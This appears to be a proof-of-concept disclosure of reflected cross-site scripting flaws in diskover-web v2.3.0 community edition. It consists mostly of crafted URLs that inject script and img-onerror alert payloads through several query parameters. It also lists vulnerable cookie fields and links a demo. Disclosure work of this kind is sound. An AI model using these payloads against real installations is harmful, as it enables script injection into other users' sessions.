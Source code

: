 
```diskover-web v2.3.0 community edition (ce)```

maxage

```http://172.17.0.1:8080/selectindices.php?maxage=1"><script>alert(2)<%2fscript>&namecontains=&reloadindices&refreshindices```

maxindex

```http://172.17.0.1:8080/selectindices.php?reloadindices=true&maxindex=1%22%3e%3cscript%3ealert(1)%3c%2fscript%3e```

maxindex

```http://172.17.0.1:8080/selectindices.php?reloadindices=true&maxindex=1"><script>alert(1)</script>```

index


```http://172.17.0.1:8080/selectindices.php?indices-table_length=10&index=diskover-my_index_name%22%3e%3cscript%3ealert(1)%3c%2fscript%3e```

```http://172.17.0.1:8080/d3_data_bar_mtime_searchresults.php?path=%2fdata<img src%3da onerror%3dalert(1)>&usecache=1```

```http://172.17.0.1:8080/d3_data_search.php?path=%2fdata<img src%3da onerror%3dalert(1)>&filter=1&time=0&use_count=0&show_files=0&usecache=1```

```http://172.17.0.1:8080/search.php?index=diskover-my_index_name&submitted=true&p=1&q=size%3a<%3d52428800><script>alert(1)<%2fscript>&doctype=file```

```http://172.17.0.1:8080/search.php?index=diskover-my_index_name&submitted=true&p=1&q=size:<=52428800&doctype=file><script>alert(1)<%2fscript>```

```http://172.17.0.1:8080/view.php?id=kF7LTpYBiPlhI5qdCBHk&docindex=diskover-my_index_name&doctype="><script>alert(2)<%2fscript>```

```http://172.17.0.1:8080/view.php?id=kF7LTpYBiPlhI5qdCBHk&docindex=diskover-my_index_name%3cscript%3ealert(1)%3c%2fscript%3e&doctype=file```




Cookie

```
maxindex
index
```

Cookie JSON parameters

```
doctype 
file_size_bytes_low
file_size_bytes_high
last_mod_time_low
file_size_bytes_low 
```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/diskover-web_v2.3.0_community_edition_reflected_XSS_via_cookie.gif?raw=true)
